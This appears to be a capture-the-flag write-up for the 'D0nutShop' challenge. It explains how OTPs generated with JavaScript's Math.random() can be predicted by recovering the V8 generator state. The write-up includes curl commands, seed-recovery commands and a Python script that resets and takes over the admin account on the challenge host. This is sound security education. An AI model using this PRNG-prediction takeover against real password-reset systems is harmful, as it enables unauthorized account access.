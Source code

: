 # D0nutShop
![Image](https://github.com/user-attachments/assets/d8a79cc1-05e8-4b2b-9613-473bae6d0b6e)

**Attachment:** [challenge.zip](https://github.com/user-attachments/files/19113145/challenge.zip)  
**Password:** snyk-ftf-2025  
**Credentials:**
- d0nut:d0nutboi

## Writeup
![Image](https://github.com/user-attachments/assets/394d3c39-b057-46d2-a0a2-6e5a39a3a95d)

"D0nutShop" is a simple online donut store.

Looking at the description and the site, there is a reference to the `Math.floor()` function. Checking the source code, this is the relevant part:

```javascript
const CONST = 10000000;
const otpStore = {};

function generateOtp(username) {
    const otp = Math.floor(CONST * Math.random());
    otpStore[username] = otp;
    return otp;
}

function verifyOtp(username, otp) {
    if (otpStore[username] && parseInt(otp) === otpStore[username]) {
        delete otpStore[username];
        return true;
    }
    return false;
}

module.exports = { generateOtp, verifyOtp };
```

The `Math.random()` function is not cryptographically secure at all, as we can se [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math/random).

There's an **admin login page**, and at the bottom, an option to reset the password by requesting an **OTP**:

![Image](https://github.com/user-attachments/assets/57d433c6-5cd5-4e13-8ffb-baee809ce47d)

![Image](https://github.com/user-attachments/assets/043c5840-3e5f-43f8-b6ac-67c458768d95)

`admin` is a valid user, and this is the message I get from the site with the method I can use to retrieve the OTP:

![Image](https://github.com/user-attachments/assets/6df97b5d-3e42-4b1c-a2ee-b762c8548d91)

While browsing GitHub, I found this repo explaining how to exploit the vulnerable `Math.floor(CONST * Math.random())` function: https://github.com/d0nutptr/v8_rand_buster  

So, I started by using **curl** with the message I received from the site to collect multiple `OTPs`:

```bash
curl -s -X POST http://challenge.ctf.games:31557/reset -d 'username=d0nut' 1>/dev/null
curl -s -X POST http://challenge.ctf.games:31557/reset/api/get-otp -H 'Content-Type: application/json' -d '{"username":"d0nut","password":"d0nutboi"}'
```

![Image](https://github.com/user-attachments/assets/b53fe910-908a-4fb9-8590-247d1b161b24)

Then I installed the repo and followed the instructions to generate a `seed`:

```bash
cat codes.txt | tac | python3 xs128p.py --multiple 10000000 --lead 6
```

![Image](https://github.com/user-attachments/assets/aeaf714c-bf75-4bb5-962d-07ff61378957)

I generated the following OTPs using the seeds I retrieved:

```bash
python3 xs128p.py --multiple 10000000 --gen 1155105234970035644,15775672274592191546,7
```

![Image](https://github.com/user-attachments/assets/2928fa89-b5ea-4432-9db0-317abdf25c91)

```python
#!/usr/bin/python

import requests, json

base_url = 'http://challenge.ctf.games:31557'
reset_url = f'{base_url}/reset'
verify_url = f'{base_url}/reset/verify'
change_password = f'{base_url}/reset/change-password'

header = {'Content-Type': 'application/x-www-form-urlencoded'}

reset_data = {'username': 'admin'}
new_password_data = {'newPassword': 'dav'}

try:
    r = requests.post(reset_url, data=reset_data, headers=header)
    r.raise_for_status()  # Controlla che la risposta sia valida
except requests.exceptions.RequestException as e:
    print(f"Error during reset: {e}")
    exit(1)

verify_data = {'username': 'admin', 'otp': '3974566'}
try:
    r = requests.post(verify_url, data=verify_data, headers=header)
    r.raise_for_status()
    
    if 'verified' in r.text:
        verified_cookie = r.cookies.get('connect.sid')
        r = requests.post(change_password, headers=header, cookies={'connect.sid': verified_cookie}, data=new_password_data)
        
        if 'successfully' in r.text:
            print('Admin password successfully changed!')
        else:
            print('Failed to change password')
    else:
        print('Failed to verify OTP')
except requests.exceptions.RequestException as e:
    print(f"Error during verification or password change: {e}")
```
